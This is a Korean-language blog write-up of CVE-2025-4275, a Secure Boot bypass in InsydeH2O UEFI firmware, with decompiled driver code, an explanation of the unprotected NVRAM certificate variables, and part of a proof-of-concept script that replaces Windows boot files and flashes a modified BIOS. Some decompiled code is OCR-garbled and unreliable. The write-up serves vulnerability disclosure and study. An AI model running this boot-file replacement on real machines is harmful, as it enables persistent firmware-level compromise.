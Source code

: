 ```yaml
---
title: "[하루한줄] CVE-2025-4275: InsydeH2O의 NVRAM 변수를 통한 디지털 인증서 삽입으로 인한 Secure Boot bypass"
author: newp1ayer48
tags: [Insyde Software, InsydeH2O, UEFI firmware, Secure Boot bypass, newp1ayer48]
categories: [1day1line]
date: 2025-06-25 22:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://www.kb.cert.org/vuls/id/211341

## Target

- InsydeH2O ****Kernel 5.2~5.7

## Explain

InsydeH2O UEFI 펌웨어 애플리케이션에서 Secure Boot bypass 취약점이 발생하였습니다. 이 취약점은 인증서 저장소로 사용되는 NVRAM 변수의 안전하지 않은 사용으로 인해 발생합니다.

UEFI는 초기 부팅 시, 최신 펌웨어 업데이트 여부를 결정하고, UEFI 애플리케이션과 드라이버가 시스템을 초기화하고 OS 로더로 넘어가는 과정을 거칩니다. 펌웨어 업데이트는 `isflash.bin` UEFI 애플리케이션이 사용되며, 애플리케이션의 서명은 Insyde 인증서로 서명되는 Secure Boot 매커니즘을 가지고 있습니다.

서명 검증 과정은 `BdsDxe` 드라이버는 펌웨어 외부에서 실행되어 펌웨어 업데이터의 서명 인증서를 읽고, `SecurityStubDxe` 드라이버에 전달하여 Authenticode 서명 검증을 수행합니다. 이 전달 과정에서 `SecureFlashDxe` 드라이버를 통해 인증서를 휘발성 NVRAM 변수에 로드 하도록 변수를 설정합니다.

```c
_int64 LoadCertificateToVariable()
{
	UINTN v0; // rbx
	int64 v1; // rbx
	EFI_FIRMWARE_VOLUME2_PROTOCOL *Interface; // [rsp+40h] [rbp-28h] BYREF
	UINTN DataSize; // [rsp+48h] [rbp-20h] BYREF
	EFI_HANDLE *Buffer; // [rsp+50h] [rbp-18h] BYREF
	char v6; // [rsp+80h] [rbp+18h] BYREF
	UINT32 v7; // [rsp+88h] [rbp+20h] BYREF
	UINTN NoHandles; // [rsp+90h] [rbp+28h] BYREF
	void *Data; // [rsp+98h] [rbp+30h] BYREF
	Interface = 0;
	v7 = 0;
	if ((gBS->LocateHandleBuffer(ByProtocol, &EFI_FIRMWARE_VOLUME2_PROTOCOL_GUID, 0, &NoHandles, &Buffer) & 0x8000000000000000uLL) == 0LL&& NoHandles )
	{
		v0 = 0;
		while ((gBS->HandleProtocol(Buffer [v0], &EFI_FIRMWARE_VOLUME2_PROTOCOL_GUID, (void **)&Interface) & 0x8000000000000000uLL) == 0LL)
		{
			Data = 0;
			DataSize = 0;
			if ((Interface->ReadSection (Interface, &SECURE_FLASH_FV_CERT_GUID, 0x19u, 0, &Data, &DataSize, &v7) & 0x8000000000000000uLL) != ØLL && ++v0 < NoHandles )
			{
				continue;
				if (v0 >= NoHandles )
					return EFI_NOT_FOUND;
				v1 = gRT->SetVariable((CHAR16 *)L"SecureFlashCertData", &SECURE_FLASH_INFO_GUID,VARIABLE_ATTRIBUTE_BS_RT,DataSize,Data);
				gBS->FreePool(Data);
				if (v1 >= 0)
				{
					v6 = 0;
					return gRT->SetVariable((CHAR16 *) L"SecureFlashSetupMode", &SECURE_FLASH_INFO_GUID, 6u, 1u, &v6);
				}
				return v1;
			}
	}
	return EFI_NOT_FOUND;
}
```

`BdsDxe` 드라이버에서는 NVRAM 변수인 `SecureFlashSetupMode`와 EFI_SIGNATURE_LIST 형식의 인증서가 포함된 `SecureFlashCertData`의 두 개의 변수를 설정합니다.

```c
char_fastcall VerifyBySecureFlashSignature( _int64 a1, _int64 a2)
{
	char v5; // si
	_int64 Variable; // rax
	char *v7; // rbx
	_int64 v8; // rdi
	UINTN v9; // г8
	void *v10; // rcx
	UINT8 Sha256Hash; // rdx
	void *CryptoServices Protocol; // [rsp+30h] [rbp-10h] BYREF
	unsigned_int64 v13; // [rsp+38h] [rbp-8h] BYREF
	void *v14; // [rsp+80h] [rbp+40h] BYREF
	void *Buffer; // [rsp+88h] [rbp+48h] BYREF
	if ((gBS->LocateProtocol(&CRYPTO_SERVICES_PROTOCOL_GUID, 0, &CryptoServices Protocol) & 0x8000000000000000uLL) != ØLL)
		return 0;
	Buffer = 0;
	v14 = 0;
	v5 = 0;
	LibGetVariable(aSecureFlashSetupMode, &SECURE_FLASH_INFO_GUID, &v13, &v14);
	if (v14)
	{
		Variable LibGetVariable(aSecureFlashCertData, &SECURE_FLASH_INFO_GUID, &v13, &Buffer);
		v7= (char *)Buffer;
		if (Variable >= 0)
		{
			v8 = 0;
			if (v13 > 0x10)
			{
				v9 HashSize;
				v10: Buffer;
				do
				{
					if (*(_DWORD *)&v7 [v8 + 16] < 0x1Cu)
						break;
					v5 = (((_int64 (_fastcall **) (_int64, _int64, char *, _int64, _QWORD, UINTN)) CryptoServicesProtocol + 0x22)) (al,a2,&v7 [v8 + 44], *(unsigned int *) &v7 [v8 + 24] 16LL,*(_QWORD *)v10, ); // AuthenticodeVerify
					if (v5)
						break;
					v10 = Buffer;
					v9 = HashSize;
					Sha256Hash = (UINT8 *):: Buffer [1].Sha256Hash;
					if (HashSize && (UINT8 *):: Buffer->Sha256Hash != Sha256Hash )
					{
						if (sub_350((UINT8 *):: Buffer->Sha256Hash, Sha256Hash, HashSize))
						{
							v5 = (*((_int64 (_fastcall **) (_int64, _int64, char *, _int64, EFI_HASH_OUTPUT, UINTN)) CryptoServicesProtocol+ 0x22)) ( al, a2, &v7 [v8 + 44], *(unsigned int *)&v7 [v8 + 24] 16LL, :: Buffer [1], HashSize);  // AuthenticodeVerify
							if (v5)
								break;
						}
						v9 = HashSize;
						v10 = Buffer;
					}
					v8 += (unsigned int *)&v7 [v8 +16];
				}
				while (v8+ 28 < v13);
			}
		}
		if (v7)
			gBS->FreePool(v7);
		gBS->FreePool(v14);
	}
	return v5;
}
```

`SecurityStubDxe` 드라이버는 `SecureFlashSetupMode`와 `SecureFlashCertData` 두 변수 값이 모두 존재하는 경우, 라이브러리 함수를 통해 읽습니다.

여기서 `SecureFlashSetupMode`와 `SecureFlashCertData` 이 두 NVRAM 변수는 보호되지 않기에 런타임 중에 변조할 수 있습니다. 변조한 두 변수를 `SecurityStubDxe` 드라이버에 전달하면, `BdsDxe` 드라이버가 생성한 것으로 속일 수 있습니다. 이후에 오는 모든 항목은 추가적인 검증 없이 모두 신뢰하기 때문에, `isflash.bin`의 Secure Boot 과정 및 Insyde 서명 확인을 모두 우회할 수 있습니다.

PoC의 일부인 `sfpoc.cmd`는 아래와 같습니다.

```powershell
sfcd set
mountvol U: /s
mkdir U:\\EFI\\Insyde
copy isflash.bin U:\\EFI\\Insyde\\
move U:\\EFI\Boot\\bootx64.efi U:\\EFI\\Boot\\bootx64.efi.org
move U:\\EFI\Microsoft\\Boot\\bootmgfw.efi U:\\EFI\Microsoft\\Boot\\bootmgfw.efi.org
copy isflash.bin U:\\EFI\Boot\\bootx64.efi
copy isflash.bin U:\\EFI\Microsoft\\Boot\\bootmgfw.efi
copy bios.bin U:\\
copy fpt_signed.efi U:\\
copy sfpoc_signed.efi U:\\
copy startup_2.nsh U:\\
copy startup_1.nsh U:\\startup.nsh
dir U:
pause
mountvol U: /d
shutdown /r /t 0
```

변조한 각 `.efi` 파일들을 모두 빌드하고 서명한 이후에 Windows에서 관리자 권한으로 위 `sfpoc.cmd`를 실행하면, 재부팅 이후에 수정된 BIOS 이미지를 확인할 수 있습니다.

이처럼 공격자는 이 변수를 통해 자신의 인증서를 저장한 후, UEFI 환경의 초기 부팅 과정에서 삽입된 인증서로 서명된 임의의 `.efi` 펌웨어를 실행할 수 있습니다.

아래 영상으로 PoC 시연을 확인할 수 있습니다.

<iframe width="560" height="315" src="https://www.youtube.com/embed/1uJF44S0LQw?si=0jSHTtroxe_RMXCo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

이 취약점은 Insyde에 보고되었으며, 공개 후 90일 만에 패치 되었습니다.

## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2025-4275
- https://coderush.me/hydroph0bia-part1/
- https://coderush.me/hydroph0bia-part2/
- https://github.com/NikolajSchlej/Hydroph0bia/tree/main/sfpoc
